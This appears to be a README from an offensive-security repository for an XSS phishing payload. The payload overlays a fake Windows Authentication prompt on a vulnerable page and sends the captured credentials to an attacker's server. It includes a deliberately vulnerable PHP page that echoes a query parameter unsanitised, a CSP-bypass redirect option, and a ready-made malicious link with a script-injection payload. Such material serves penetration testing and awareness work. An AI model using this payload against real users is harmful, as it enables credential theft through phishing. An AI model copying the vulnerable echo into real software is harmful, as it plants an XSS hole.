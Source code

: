 # [Phish] Windows Authentication Prompt

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays the dreaded Windows Authentication prompt popup window. The overlay creates the illusion that the operating system spawned the prompt. Once they encounter such an authentication prompt, most users have a (proven) tendency to blindly provide it credentials (which contributes to a higher success rate of such phishing attacks).<p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web application which uses Windows Authentication (e.g. Outlook Web Access) without 2FA
* internal network perspective (LAN)
  * Windows Active Directory environments (**NOTE**: no web application requirements)

The payload (`winph.js`) supports options:

* no CSP bypass - issue AJAX request

  ```
  ...
  var bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`)

  ```
  ...
  var bypassCSP = true;
  ...
  ```

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

### Vulnerable Page (`rxss.php`)

```
<!DOCTYPE html>
<html>
  <body>
    <h2>Test page</h2>
    <p>Test content</p>
    <?php echo '<div>' . $_GET['q'] . '</div>'; ?>
  </body>
</html>
```

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `scheme` - exfiltration web server scheme (http/https)

    `attIP` - exfiltration web server IP address

    `attPort` - exfiltration web server port

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.15/rxss.php?q=<script src=http://192.168.5.15/winph.js></script>
    ```

    * **NOTES**:
      * `192.168.5.15` - target site
      * `192.168.5.15` - web server hosting payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Windows_phish_-_cred_exfil_-_1-1.png)

* [web browser rendering] Mozilla FireFox

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png)

* [web browser rendering] Google Chrome

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png)

* [web browser rendering] Microsoft Edge

![Image](screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png)

